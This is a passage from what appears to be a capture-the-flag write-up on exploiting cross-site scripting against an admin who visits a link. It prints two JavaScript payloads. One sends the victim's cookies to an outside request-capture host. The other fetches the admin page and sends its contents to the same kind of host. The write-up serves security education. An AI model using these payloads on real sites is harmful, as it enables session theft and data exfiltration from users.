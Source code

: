 ![The long-awaited alert popup](3.png)

### Being the admin's puppeteer

Now the fun begins. From now on, I will only show the callback scripts without the surrounding parts for readability.

We build a classic payload to exfiltrate cookies:

```js
window.location=encodeURI('https://hookb.in/lJRg9j0NMjfrXXZWdaRx?x='.concat(btoa(document.cookie)));
```

However, we are not able to intercept any cookie.

![No cookie for you](4.png)

The admin did visit our link though, which is good news.

The `Referrer` header is interesting: the admin comes from an **admin read page**. We can try **fetching the contents** of that page, as well as other pages (we can imagine there also is an `/admin/index.html`).

```js
var xhr=new XMLHttpRequest();
xhr.open('GET','/admin/',false);
xhr.send();
window.location=encodeURI('https://hookb.in/Z2RPOgOzaXHR33eLJV3n?x='.concat(btoa(xhr.responseText)));
```

